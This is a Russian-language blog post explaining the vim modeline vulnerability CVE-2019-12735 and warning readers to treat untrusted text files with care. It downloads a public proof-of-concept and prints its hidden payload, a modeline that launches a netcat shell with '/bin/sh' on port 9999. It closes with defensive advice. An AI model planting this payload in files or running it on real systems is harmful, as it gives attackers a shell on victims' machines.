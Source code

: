 ```yaml
---
layout: post
title:  "Открываем незнакомые файлы с осторожностью даже текстовым редактором!"
meta_description: "Демонстрация уязвимости в текстовом редакторе vim с объяснениями почему открывать незнакомые текстовые файлы опасно даже в текстовом редакторе"
date:   2019-09-18
tags: vim exploits vulnerability
categories: article
author: "soko1"
---
```


Многим известно, что открывать прикрепленные файлы к письму на email бывает небезопасно, но сколько человек при этом открывает незнакомые текстовые файлы, например, в текстовом редакторе? Особенно если это Linux и какой-нибудь проверенным временем текстовый редактор vim/emacs! Что может случиться? 

## Краткое описание недавней уязвимости в vim

Не хочу вдаваться в технические подробности дырки, которую нашли в текстовом редакторе vim, об этом написано не мало статей (уязвимости присвоен номер <a href="https://nvd.nist.gov/vuln/detail/CVE-2019-12735" target="_blank">CVE-2019-12735</a>), но хочу рассказать о том, какую опасность это несёт и почему надо быть предельно аккуратным даже с такими казалось бы базовыми инструментами.

Смысл атаки прост: вам присылают файлик, вы его открываете в vim, а тем временем у вас на компьютере выполняется код. Например, качается с удаленного сервера бекдор и устанавливается в систему. При чем вы даже не видите целиком содержимого файла, вся выполняемая конструкция замаскирована и не отображается. 

## Демонстрация экслоита

Рассмотрим один из экслоитов для vim. 

Скачаем сам эксплоит:

```
$ wget https://raw.githubusercontent.com/numirias/security/master/data/2019-06-04_ace-vim-neovim/shell.txt
```

А теперь попробуем его прочитать, например, утилитой cat:

```
$ cat shell.txt
Nothing here.
```

А вот что в файлике находится на самом деле:

```
$ cat -v shell.txt
[?7lSNothing here.:silent! w | call system('nohup nc 127.0.0.1 9999 -e /bin/sh &') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails('set\ fde=x\ \|\ source\!\ \%') fdl=0: [1G[KNothing here."[D 
```

То есть вы качаете незнакомый файлик, открываете его в уязвимом текстовом редакторе и у вас открывается шелл на 9999-порту и делай дальше с вашей машиной что хочешь :) 

## Выводы

Открытие незнакомых текстовых файлов в текстовых редакторах — не менее опасное действие нежели запуск exe/elf-файлов.

Если вы не доверяете источнику с которого скачен файл — лучше запустить его в изолированном окружении вроде виртуальной машины, или тестовой vps.

Как вариант — добавьте в ваш шелл (например, ~/.zshrc) следующий alias, чтобы хоть как-то обнаружить возможную маскировку шелл-кода в незнакомом файле. При условии что это не эксплоит к утилите cat, или терминалу :)

```
alias cv='cat -v'
```

Ну и конечно же не забывайте обновлять всё ПО и ОС на всех ваших девайсах.